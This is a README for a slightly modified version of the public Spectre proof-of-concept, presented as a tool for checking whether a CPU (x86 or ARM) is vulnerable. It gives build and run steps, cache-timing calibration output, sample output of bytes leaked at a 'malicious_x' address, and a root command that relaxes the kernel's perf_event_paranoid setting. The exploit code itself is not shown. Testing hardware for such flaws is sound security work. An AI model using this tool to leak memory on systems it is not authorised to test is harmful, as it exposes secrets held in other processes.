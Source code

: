 
This tool can detect whether your CPU is vulnerable to Spectre attack
and can be easily exploited. It's just slightly modified version
of original PoC published in [1].

Main diffrence is, that now it's architecture idependent and allows you
to test multiple architecures for eg. ARM (and of course x86).

One disadvantage is that, that you first need to find your threshold
value and table size, which guarantees stable results.
Second one is that, since now we need to "manually" flush L1 cache,
it's much slower than clflush on x86

Usage:

$ ./build
$ ./m $(( 16 * 1024 * 1024 ))
Cached average read time: 26
Non-cached average read time: 38
No clear prediction!

Now you see, that you need increase flush table size, so:

$ ./m $(( 32 * 1024 * 1024 ))
Cached average read time: 27
Non-cached average read time: 744
Suggested threshold: 54

Seems fine. Next, update accordingly CACHE_HIT_THRESHOLD and CACHE_MEM_FLUSH
in spectre.c and check your vulnerability:

$ ./build
$ ./s
Reading 40 bytes:
Reading at malicious_x = 0xffffffffffdff2c8... Success: 0x54=’T’ score=2
Reading at malicious_x = 0xffffffffffdff2c9... Success: 0x68=’h’ score=2
Reading at malicious_x = 0xffffffffffdff2ca... Success: 0x65=’e’ score=2
Reading at malicious_x = 0xffffffffffdff2cb... Success: 0x20=’ ’ score=2

Notes:

On newer Linux kernel versions, you may need to unlock perf counters first:

# echo 1 > /proc/sys/kernel/perf_event_paranoid

-- 
[1] https://spectreattack.com/spectre.pdf


